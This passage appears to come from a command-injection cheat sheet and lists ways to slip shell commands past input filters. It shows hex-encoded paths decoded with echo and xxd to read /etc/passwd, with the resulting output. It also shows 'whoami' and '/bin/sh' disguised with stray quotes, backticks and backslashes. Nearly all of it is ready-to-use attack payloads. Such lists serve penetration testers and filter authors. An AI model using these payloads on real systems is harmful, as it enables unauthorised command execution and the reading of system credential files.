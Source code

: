 ### Bypass Characters Filter Via Hex Encoding

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass With Single Quote

```powershell
w'h'o'am'i
wh''oami
'w'hoami
```

### Bypass With Double Quote

```powershell
w"h"o"am"i
wh""oami
"wh"oami
```

### Bypass With Backticks

```powershell
wh``oami
```

### Bypass With Backslash and Slash

```powershell
w\ho\am\i
/\b\i\n/////s\h
```
